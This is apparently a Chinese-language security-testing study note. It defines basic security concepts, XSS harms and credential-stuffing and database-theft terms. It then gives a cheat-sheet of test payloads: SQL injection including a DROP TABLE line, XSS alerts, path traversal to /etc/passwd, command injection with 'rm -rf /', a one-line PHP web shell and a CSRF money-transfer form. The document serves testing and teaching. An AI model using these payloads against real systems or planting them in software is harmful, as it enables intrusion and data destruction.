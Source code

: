 [TOC]

<h1 align="center">安全测试</h1>

> By：weimenghua  
> Date：2022.05.25  
> Description：安全测试



## 安全观

1. 三个最基本要素
- 机密性（Confidentiality）
- 完整性（Integrity）
- 可用性（Availability）
2. 缺点 (defect / mistake)
- 软件在实现上和设计上的弱点
- 缺点是缺陷和瑕疵的统称
3. 缺陷(bug)
- 实现层面的软件缺点
- 容易被发现和修复
- 例如：缓冲区溢出
- 一种设计上的缺点，难以察觉
- 瑕疵往往需要人工分析才能发现
- 软件系统中错误处理或恢复模块，导致程序不安全或失效
4. 漏洞(vulnerability)
- 可以用于违反安全策略的缺陷或瑕疵 


## 漏洞危害
1. 钓鱼欺骗：最典型的就是利用目标网站的反射型跨站脚本漏洞将目标网站重定向到钓鱼网站，或者注入钓鱼 JavaScript 以监控目标网站的表单输入，甚至发起基于 DHTML 更高级的钓鱼攻击方式。
2. 网站挂马：跨站时利用 IFrame 嵌入隐藏的恶意网站或者将被攻击者定向到恶意网站上，或者弹出恶意网站窗口等方式都可以进行挂马攻击。
3. 身份盗用：Cookie 是用户对于特定网站的身份验证标志，XSS 可以盗取到用户的 Cookie，从而利用该 Cookie 盗取用户对该网站的操作权限。如果一个网站管理员用户 Cookie 被窃取，将会对网站引发巨大的危害。
4. 盗取网站用户信息：当能够窃取到用户 Cookie 从而获取到用户身份使，攻击者可以获取到用户对网站的操作权限，从而查看用户隐私信息。
5. 垃圾信息发送：比如在 SNS 社区中，利用 XSS 漏洞借用被攻击者的身份发送大量的垃圾信息给特定的目标群。
6. 劫持用户 Web 行为：一些高级的 XSS 攻击甚至可以劫持用户的 Web 行为，监视用户的浏览历史，发送与接收的数据等等。
7. XSS 蠕虫：XSS 蠕虫可以用来打广告、刷流量、挂马、恶作剧、破坏网上数据、实施 DDoS 攻击等。


## 撞库+漏水+拖库+洗库
1. 撞库  
”撞库”是黑客通过收集互联网已泄露的用户和密码信息，生成对应的字典表，尝试批量登陆其他网站后，得到一系列可以登录的用户。  
很多用户在不同网站使用的是相同的帐号密码，因此黑客可以通过获取用户在 A网站的账户从而尝试登录 B网址，这就可以理解为撞库攻击。  
说的简单一点，就是一个小偷，入室盗窃后偷到了一串钥匙，然后他拿着这串钥匙，在整个小区里面挨家挨户的进行开锁。这个过程就是撞库。

2. 漏水  
"漏水"是指某些企业自身出现风险导致的数据泄露。  
一般是因为企业没有按照统一规范流程搭建业务，比如没有做好关键数据隔离、没有做好权限分层管控、没有做好数据加密存储等而出现的数据安全问题。

3. 拖库  
拖库本来是数据库领域的术语，指从数据库中导出数据。到了黑客攻击泛滥的今天，它被用来指网站遭到入侵后，黑客窃取其数据库。  
黑客通过技术手段窃取数据库的过程叫做拖库。就像小偷偷东西是一样的。  
“拖库”的通常步骤为：  
1、黑客对目标网站进行扫描，查找其存在的漏洞，常见漏洞包括 SQL 注入、文件上传漏洞等。（小偷蹲点）   
2、通过该漏洞在网站服务器上建立“后门(webshell)”，通过该后门获取服务器操作系统的权限。（小偷想办法进入室内）   
3、利用系统权限直接下载备份数据库，或查找数据库链接，将其导出到本地。（小偷盗走值钱的东西）  

4. 洗库  
“洗库”，属于黑客入侵的一种，就是黑客入侵网站，通过技术手段将有价值的用户数据归纳分析，售卖变现。说的简单一点，就是一个小偷，入室盗窃后偷到了很多东西，他对这些赃物分类，然后进行销赃的过程。


## 特殊字符
**特殊字符1**
- ♪♫♬
- < > &
- ¥€£$
- ∑∫√
- ©®
- ♀♂
- ♩♫♬♭♮♯
- ✓✘✔️✖️

**特殊字符2**
- SQL 注入特殊字符： ' " ; - / * % + =
- 命令注入特殊字符： ; & || | ` $ ( ) { } [ ] < >
- XML 注入特殊字符： < > " ' &
- LDAP 注入特殊字符： * ( ) \ /
- 文件包含注入特殊字符：../ %00
- XSS 注入特殊字符： < > ' " / ; :

**特殊字符3**
```
- SQL 注入：' or 1=1;--
- SQL 注入：; DROP TABLE users;--
- SQL 注入：' union select 1,2,3 --
- 跨站脚本攻击 (XSS) ：<script>alert('XSS');</script>
- 跨站脚本攻击 (XSS) ："><script>alert('XSS')</script>
- 跨站脚本攻击 (XSS) ：<img src=x onerror=alert('XSS')>
- 跨站脚本攻击 (XSS) ：<svg/onload=alert('XSS')>
- 跨站脚本攻击 (XSS) ：<a href="javascript:alert('XSS')">click me</a>
- 跨站脚本攻击 (XSS) ：<iframe src="javascript:alert('XSS')">
- 跨站脚本攻击 (XSS) ：<script>eval('alert("XSS")')</script>
- 路径遍历攻击：../etc/passwd
- 命令注入漏洞：'; exec('rm -rf /'); --
- 命令注入漏洞：;ls -la
- CSRF 攻击： <img src="https://18349.runjs.cn/dddd/wei-test-demo/blob/master/img.png" />
- Unicode 编码：%u0061%u0062%u0063
- HTML 注入：<iframe src="javascript:alert('XSS')"></iframe>
- HTTP 请求截断漏洞：%0D%0AContent-Length: 9999
- 远程代码执行漏洞：<?php echo shell_exec($_GET['cmd']); ?>
- Cookie 劫持漏洞：<img src="javascript:alert(document.cookie)">
- Cookie 劫持漏洞：<script>alert(document.cookie)</script>
- 参数污染漏洞：<a href="http://example.com/?foo=bar&baz=qux">
- 输入验证不足：<input type="text" value="><script>alert('XSS')</script>">
- LDAP 注入：(&(uid=hacker)(password=*))
- CSRF 注入：
<form action="https://www.example.com/transfer" method="POST">
  <input type="hidden" name="from" value="hacker@example.com">
  <input type="hidden" name="to" value="victim@example.com">
  <input type="hidden" name="amount" value="1000000">
  <input type="submit" value="Transfer">
</form>
- 文件上传注入：
<?php
  $filename = $_FILES['file']['name'];
  $tmpname = $_FILES['file']['tmp_name'];
  $extension = pathinfo($filename, PATHINFO_EXTENSION);
  $allowed_extensions = array("jpg", "jpeg", "png", "gif");

if (!in_array($extension, $allowed_extensions)) {
echo "Invalid file type";
exit;
}

move_uploaded_file($tmpname, "uploads/" . $filename);
?>
```

## CVE 漏洞
[阿里云漏洞库](https://avd.aliyun.com/nvd/list)
CVE（Common Vulnerabilities and Exposures）的全称是公共漏洞和暴露，是公开披露的网络安全漏洞列表。IT 人员、安全研究人员查阅 CVE 获取漏洞的详细信息，进而根据漏洞评分确定漏洞解决的优先级。  
在 CVE 中，每个漏洞按 CVE-1999-0067、CVE-2014-10001、CVE-2014-100001这样的形式编号。CVE 编号是识别漏洞的唯一标识符。CVE 编号由 CVE 编号机构（CVE Numbering Authority，CNA）分配，CVE 编号机构主要由 IT 供应商、安全厂商和安全研究组织承担。
